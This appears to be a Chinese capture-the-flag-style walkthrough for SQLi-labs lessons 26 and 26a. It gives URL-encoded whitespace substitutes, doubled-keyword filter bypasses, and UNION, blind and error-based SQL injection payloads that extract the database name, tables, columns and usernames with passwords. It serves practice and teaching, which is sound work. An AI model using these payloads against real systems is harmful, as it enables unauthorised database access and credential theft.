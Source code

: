 >%0a 新建一行

>%0c 新的一页

>%0d return功能

>%0b TAB键（垂直）

>%a0 空格


## 步骤

用%A0替代空格使用，用&&(%26%26)替代AND使用

构造payload： 

`0'%A0UNION%A0SELECT%A01,version(),database()%26%26%a0'1`

这道题还可以使用盲注实现

`0'||left(database(),1)='s'%26%26'1'='1`

同样报错注入也可以实现

`0'||updatexml(1,concat(0x7e,(Select%0a@@version),0x7e),1)||'1'='1`

只要将空格和and绕过 那么实现就简单了

or和and 很好过滤，注释过滤了就使用永真闭合，

or '1 ' = '1是为了闭合和后的' 变成or '1'='1' limit 1,1   让语句完整

%26%26是&&的url编码

1.查数据库

`?id=0'union%a0select%a01,database(),3%26%26'1'='1`

2.查表名

`?id=0%27union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security'%26%26%a0'1%27='1`

3.查字段名

`?id=0'%0bunion%0bselect%0b1,group_concat(column_name),3%0bfrom%0binfoorrmation_schema.columns%0bwhere%0btable_schema='security'%0baandnd%0btable_name='users'%0b%26%26%0b'1'='1`

4.查数据

`?id=0'%a0union%a0select%a01,group_concat(username,passwoorrd),3%a0from%a0users%a0where%a0'1%27='1 `
***
# less 26a(同上)
## 原理
闭合方式改变

## 步骤
样例:
